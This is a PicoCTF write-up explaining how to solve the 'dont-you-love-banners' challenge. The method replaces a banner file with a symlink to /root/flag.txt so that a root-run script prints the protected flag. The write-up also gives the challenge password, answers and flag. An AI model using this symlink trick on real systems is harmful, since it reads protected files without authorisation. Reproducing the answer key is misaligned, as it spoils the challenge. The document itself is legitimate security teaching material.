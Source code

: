 ```yaml
---
title: "dont-you-love-banners"
description: "Can you abuse the banner?"
pubDate: 2025-03-06
ctf: "PicoCTF"
category: "general"
author: "sclux7"
section: "PicoCTF"
---
```


# Understanding the challenge

We can use `nc` to connect to the two addresses. The first has leaked a password that we can use when we connect to the second address.
Connecting to the second address prompts us with questions three that we must answer before being granted access to the server.
- What is the password?
`My_Passw@rd_@1234`
- What is the top cyber security conference in the world?
Some light googling allows us to divine the answer is "DEF CON"
- the first hacker ever was known for phreaking(making free phone calls), who was it?
Some further googling reveals the answer is `john draper`

Once we are in the server we can look around.

If we use `ls -la`, we find we have two files: `banner` and `text`
Using `cat`, we see that the banner file contains the banner that we saw at the start of the challenge when initially connecting to the server. The text file simply has the text: "keep digging".

We do exactly that. We can use `ls /` to view the contents of the `/` folder, and `ls /root/` to see if we can read into the root folder.

We can see `script.py` and `flag.txt`. Attempting to `cat /root/flag.txt` yields a permission denied, so lets `cat /root/script.py`.

`script.py` creates the opening questions when we connect to the server, and importantly has this line:
```python
with open("/home/player/banner", "r") as f:
        print(f.read())
```

After looking up symlinks (thanks to hint 1), we understand they are shortcuts to other files.

With this in mind, we can remove banner from our current directory and recreate it but as a symlink.

# Method
`rm -rf banner`

`ln -s /root/flag.txt banner`

Now, we can test if this worked. Let's leave the server and `nc` again.

Lo and behold, we get the following:

```
$ nc tethys.picoctf.net 62167
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_8126c9b0}

what is the password?
```

Flag: `picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_8126c9b0}`